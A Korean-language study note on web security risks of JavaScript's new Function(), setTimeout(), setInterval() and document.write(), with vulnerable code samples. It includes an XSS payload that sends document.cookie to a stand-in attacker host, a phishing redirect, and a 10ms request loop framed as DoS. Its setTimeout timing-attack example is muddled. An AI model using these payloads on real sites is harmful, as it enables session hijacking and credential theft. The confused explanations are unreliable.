 ## ☪️ new Function(), setTimeout(), setInterval().md

### **1. `new Function()`을 통한 코드 인젝션 공격**

#### **개념**:

`new Function()`은 **동적으로 JavaScript 코드를 실행**하는 강력한 함수입니다. 이 함수는 문자열을 받아서 실행 가능한 코드로 변환해 실행하는 방식입니다. 그런데 이 방식이 문제를 일으킬 수 있습니다. **외부 입력을 코드로 실행**하는 경우 **코드 인젝션** 공격에 취약해집니다.

#### **웹 해킹 관점에서의 위험**:

* **코드 인젝션 (Code Injection)**: 외부 사용자가 입력한 값을 **JavaScript 코드로 실행**하는 방식은 매우 위험합니다. 악성 코드가 삽입될 수 있기 때문입니다. 공격자는 이를 악용하여 **쿠키 탈취**, **세션 하이재킹**, **크로스 사이트 스크립팅(XSS)** 공격을 수행할 수 있습니다.

#### **공격 예시**:

**XSS (Cross-Site Scripting) 공격**

* 예를 들어, 웹 애플리케이션이 사용자로부터 **댓글**을 입력받고 이를 **동적으로 출력**하는 기능을 제공한다고 합시다. 사용자가 입력한 댓글을 `new Function()`을 통해 처리하는 코드가 있다고 가정해보겠습니다.

  **취약한 코드**:

  ```javascript
  let userComment = document.getElementById("commentInput").value;  // 사용자 댓글 입력 받기
  let dynamicComment = new Function(userComment);  // 입력된 댓글을 코드로 실행
  dynamicComment();  // 사용자 입력을 실행
  ```

  이 코드에서, 만약 사용자가 **악성 스크립트**를 입력한다면, 그 코드는 그대로 실행됩니다. 예를 들어, 사용자가 입력란에 `alert(document.cookie)`라는 코드를 삽입했다고 가정해봅시다. 이 경우, **사용자의 쿠키**가 알림창으로 출력되며 공격자는 이를 **탈취**할 수 있습니다.

  **악성 코드 예시**:

  ```javascript
  alert(document.cookie);  // 쿠키 탈취
  ```

  이 코드는 공격자가 웹 애플리케이션에서 **사용자의 쿠키**를 알아낼 수 있게 합니다. 이를 통해 공격자는 **세션 하이재킹**을 시도하거나, 다른 민감한 정보를 탈취할 수 있습니다.

---

### **2. `setTimeout()`을 통한 타이밍 공격**

#### **개념**:

`setTimeout()`은 **특정 시간 후에 한 번 실행되는** 비동기 함수입니다. 주로 지연된 실행을 위해 사용되며, 설정된 시간이 지나면 **콜백 함수**가 실행됩니다. 이 함수는 **비동기적**으로 동작하기 때문에 주어진 시간에 맞춰서 **타이밍을 조절**할 수 있습니다.

#### **웹 해킹 관점에서의 위험**:

* **타이밍 공격 (Timing Attacks)**: 공격자는 `setTimeout()`을 활용하여 **서버의 응답 시간**을 분석하거나 **사용자의 인증 정보를 추측**할 수 있습니다. 특히 인증 시스템에서는 **성공적인 로그인**과 **실패한 로그인**의 응답 시간이 다를 수 있기 때문에 이를 악용하여 **패스워드**나 **사용자 이름**을 유추할 수 있습니다.

#### **공격 예시**:

* 예를 들어, 로그인 페이지에서 `setTimeout()`을 사용하여 응답을 지연시키는 방식이 있을 수 있습니다. 공격자는 로그인 성공과 실패의 시간을 분석해, **비밀번호 추측**이나 **사용자 정보**를 유추할 수 있습니다.

  **취약한 코드 예시**:

  ```javascript
  setTimeout(() => {
    // 로그인 성공 시 수행되는 동작
    alert('로그인 성공');
  }, 500);  // 500ms 후에 실행
  ```

  이 코드는 로그인 성공 시 **500ms** 동안 지연되는데, 공격자는 여러 번 로그인 시도를 통해 **응답 시간**의 차이를 분석하고 로그인 성공 여부를 알아낼 수 있습니다.


---

### **3. `setInterval()`을 통한 서비스 거부(DoS) 공격**

#### **개념**:

`setInterval()`은 주어진 시간 간격으로 **지속적으로 함수를 반복 실행**하는 함수입니다. 주기적으로 특정 작업을 수행할 때 유용하지만, 이를 잘못 사용하면 **서버 자원 소모**나 **서비스 거부(DoS) 공격**을 유발할 수 있습니다.

#### **웹 해킹 관점에서의 위험**:

* **서비스 거부(DoS)**: 공격자는 `setInterval()`을 통해 서버에 **과도한 요청**을 반복적으로 보내거나, 클라이언트에서 불필요하게 자원을 소모시킬 수 있습니다. 이렇게 하면 서버가 과부하에 걸리거나 클라이언트 측에서 **리소스를 낭비**하게 되어 **서비스 거부 상태**에 빠질 수 있습니다.

#### **공격 예시**:

* 예를 들어, 클라이언트가 `setInterval()`을 사용하여 서버에 **주기적으로** 요청을 보내게 된다면, 서버는 과도한 요청을 처리해야 하므로 자원이 고갈되어 **서비스 거부(DoS)** 상태에 빠질 수 있습니다.

  **취약한 코드 예시**:

  ```javascript
  setInterval(() => {
    fetch('https://example.com/api');  // 서버에 계속해서 요청 보내기
  }, 10);  // 10ms마다 요청을 보냄
  ```

  이 코드는 **10ms마다** 서버에 계속 요청을 보내게 되며, 서버는 **과도한 요청 처리**로 인해 **리소스를 소모**하게 됩니다. 결국 서버는 정상적인 요청을 처리하지 못하고 **서비스가 마비**될 수 있습니다.

#### **취약점 해결**:

* **요청 간격을 제한**하고, 서버에 **불필요한 반복 요청**이 발생하지 않도록 주의해야 합니다. 또한 **API 요청에 대한 제한**(rate limiting)을 설정하여, 클라이언트에서 과도한 요청을 보내지 못하도록 방지해야 합니다.

---

### **4. document.write()`을 통한 DOM 공격**

#### **개념**:

`document.write()`는 **Java스크립트로 동적으로 HTML 콘텐츠를 삽입**할 수 있는 함수입니다. 이 함수는 주로 **페이지 로딩 중**에 콘텐츠를 삽입하거나 수정하는 데 사용됩니다. 그러나 **동적으로 HTML을 삽입**할 수 있는 강력한 기능을 제공하지만, 그만큼 **보안상 심각한 취약점을 초래할 수 있습니다**. 주로 **XSS (Cross-Site Scripting)** 공격이나 **페이지 위조** 같은 문제를 유발할 수 있습니다.

#### **웹 해킹 관점에서의 위험**:

* **페이지 내용 덮어쓰기**:
  `document.write()`는 페이지 로딩이 완료된 후에는 **문서의 기존 콘텐츠를 덮어쓸** 수 있습니다. 만약 사용자 입력이 포함되어 있다면, **기존 콘텐츠가 모두 삭제**되고 새로운 콘텐츠로 바뀌게 됩니다. 이로 인해 **사용자 경험**에 심각한 영향을 미칠 수 있습니다.

* **스크립트 삽입**:
  `document.write()`는 **HTML 요소를 삽입**하기 위해 사용되며, 사용자가 입력한 값이 HTML 코드로 삽입되는 방식입니다. 이로 인해 **HTML 태그나 스크립트**가 삽입되면, 악성 코드가 실행될 수 있습니다.

#### **공격 예시**:

웹 애플리케이션에서 **사용자 댓글**을 입력받아 페이지에 동적으로 출력하는 기능을 제공한다고 합시다. 이때 \*\*`document.write()`\*\*로 사용자의 댓글을 페이지에 삽입하는 방식을 사용하고 있다고 가정합니다.

```javascript
let userComment = document.getElementById("commentInput").value;  // 사용자 댓글 입력 받기
document.write(userComment);  // 입력된 값을 그대로 페이지에 삽입
```

#### **악성 입력**

악의적인 사용자가 `document.write()`의 입력 필드에 JavaScript 코드를 삽입할 수 있다면, 이는 **XSS 공격**으로 이어질 수 있습니다. 예를 들어, 공격자가 다음과 같이 입력한다고 가정해봅시다:

```html
<script>alert('XSS Attack!');</script>
```

이 코드가 `document.write()`에 의해 실행되면, 웹 페이지에 **알림창이 뜨게 되며**, 이는 공격자가 **악성 스크립트를 실행**시키는 방법입니다.

#### **결과**

* **쿠키 탈취**: 공격자는 \*\*`document.cookie`\*\*를 이용해 사용자의 **세션 쿠키**를 탈취할 수 있습니다.

  ```javascript
  <script>document.location='https://attacker.com?cookie=' + document.cookie;</script>
  ```

  위와 같은 스크립트가 삽입되면, 사용자의 쿠키가 공격자에게 전송되어 세션 하이재킹 공격에 사용될 수 있습니다.

* **피싱 공격**: 공격자는 **가짜 로그인 페이지**를 삽입해 사용자가 로그인 정보를 입력하게 유도할 수 있습니다.

  ```html
  <script>document.location="https://fake-login.com"</script>
  ```

  이 스크립트는 사용자를 **피싱 사이트**로 리디렉션시켜 **사용자 정보를 탈취**할 수 있습니다.
